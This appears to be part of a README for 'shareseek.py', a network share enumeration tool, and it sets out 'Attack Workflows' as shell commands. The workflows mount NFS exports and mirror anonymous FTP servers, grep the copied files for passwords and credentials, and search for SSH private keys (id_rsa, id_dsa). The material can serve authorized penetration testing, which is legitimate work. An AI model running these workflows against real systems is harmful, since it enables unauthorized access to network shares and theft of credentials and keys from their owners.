 ## Output Files

| File | Description |
|------|-------------|
| `sharelist.txt` | List of accessible shares |
| `share_details.txt` | Detailed findings |
| `share_details.json` | JSON export |

## Attack Workflows

### Workflow 1: Quick Enumeration
```bash
# 1. Fast discovery
./shareseek.py -w 20

# 2. Review shares
cat sharelist.txt

# 3. Test access
# Pick shares and mount/access them
```

### Workflow 2: NFS Data Extraction
```bash
# 1. Find NFS servers
./shareseek.py | grep NFS

# 2. Mount export
mount -t nfs 192.168.1.51:/data /mnt/data

# 3. Search for sensitive files
find /mnt/data -name "*.conf" -o -name "*.xml"
grep -ri "password" /mnt/data/

# 4. Extract SSH keys
find /mnt/data -name "id_rsa" -o -name "id_dsa"
```

### Workflow 3: Anonymous FTP
```bash
# 1. Find anonymous FTP
./shareseek.py | grep ANONYMOUS

# 2. Connect and download
lftp ftp://192.168.1.50
lftp> mirror -c /

# 3. Search downloaded data
grep -ri "password\|credential" ./ftp-mirror/
```
